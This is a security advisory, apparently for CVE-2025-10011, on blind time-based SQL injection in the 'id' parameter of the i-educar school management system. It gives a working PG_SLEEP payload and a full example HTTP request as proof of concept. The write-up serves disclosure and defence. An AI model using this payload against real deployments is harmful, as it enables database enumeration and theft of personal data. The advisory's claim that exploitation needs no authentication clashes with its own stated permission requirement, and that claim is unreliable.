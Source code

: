 # SQL Injection (Blind Time-Based) Vulnerability in `id` Parameter on `/module/TabelaArredondamento/edit` Endpoint

---

## Summary

A SQL Injection vulnerability was identified in the `/module/TabelaArredondamento/edit` endpoint of the _i-educar_ application, specifically in the `id` parameter. This vulnerability allows attackers to execute arbitrary SQL commands on the backend database, potentially compromising the confidentiality, integrity, and availability of application data.

---

## Details

**Vulnerable Endpoint:** `/module/TabelaArredondamento/edit`  
**Parameter:** `id`

To reach the vulnerable functionality, it is necessary to navigate to:  
**Escola > Cadastros > Tipos > Regras de Avaliação > Tabelas de Arredondamento**.

<img width="1476" height="810" alt="Pasted image 20250817012555" src="https://github.com/user-attachments/assets/c08e38d1-2be3-4030-9048-a7b7672e1aed" />


Additionally, exploiting this vulnerability requires an account with permissions to **create/list the "Escola" menu**.

The application fails to properly validate and sanitize user input in the `id` parameter. As a result, attackers can inject crafted SQL payloads that are executed directly by the database. This could allow database enumeration, data exfiltration, modification, or denial of service via time-based delays.

---

## PoC

**Payload:**

`'+AND+7097=(SELECT+7097+FROM+PG_SLEEP(5))+AND+'WqeR'='WqeR`

This payload triggers a **5-second delay** in the server response, demonstrating that the parameter is vulnerable to blind time-based SQL injection.

**Example Request:**
```
POST /module/TabelaArredondamento/edit?id=1'+AND+7097=(SELECT+7097+FROM+PG_SLEEP(5))+AND+'WqeR'='WqeR HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br, zstd
Content-Type: application/x-www-form-urlencoded
Content-Length: 680
Origin: http://localhost
Connection: keep-alive
Referer: http://localhost/module/TabelaArredondamento/edit?id=1
Cookie: [COOKIE]
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
```

<img width="1126" height="1006" alt="Pasted image 20250817015154" src="https://github.com/user-attachments/assets/0f572426-2095-4cd8-a4bd-03226b4fbe75" />


Observe the increased server response time, confirming that the injected SQL command was executed.

---

## Impact

- **Unauthorized data access:** Reading sensitive information such as credentials, personal data, or configuration details
    
- **Database enumeration:** Extracting database schema, tables, and column details
    
- **Data manipulation:** Adding, modifying, or deleting database records
    
- **Denial of Service (DoS):** Using time-based queries to impact system availability
    
- **Potential escalation to RCE:** If combined with other vulnerabilities and specific database features
    

This vulnerability affects all users who can interact with the vulnerable parameter, and it can be exploited remotely without prior authentication if the endpoint is exposed.


## References

[CVE-2025-10011](https://www.cve.org/CVERecord?id=CVE-2025-10011)

[VulnDB-322736](https://vuldb.com/?id.322736)

[I-Educar – Official Repository](https://github.com/portabilis/i-educar)

## Discoverer

[Marcelo Queiroz](www.linkedin.com/in/marceloqueirozjr) 

by [CVE-Hunters](https://github.com/Sec-Dojo-Cyber-House/cve-hunters)
